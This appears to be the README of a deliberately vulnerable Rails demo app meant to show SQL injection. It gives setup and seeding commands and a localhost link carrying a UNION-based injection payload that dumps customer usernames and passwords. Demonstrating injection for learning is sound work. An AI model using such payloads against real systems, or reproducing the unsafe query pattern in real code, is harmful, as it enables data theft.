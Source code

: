 # README

Just a dumb test project and a super simplistic proof of concept for SQL injection 

```bash
bundle install
rails db:setup
```

Then create some stuff in the db so you can play around with it
```ruby
FactoryBot.create_list :product, 20
FactoryBot.create_list, :customer, 10
```

[http://localhost:3007/products](http://localhost:3007/products)

[Example of unsafe query](http://localhost:3007/products?query=%27%29+UNION+select+customers.id%2C++customers.first_name+AS+name%2C+customers.username+AS+cost%2C+customers.password+AS+description%2C+customers.created_at%2C+customers.updated_at+FROM+customers+--&commit=Search)
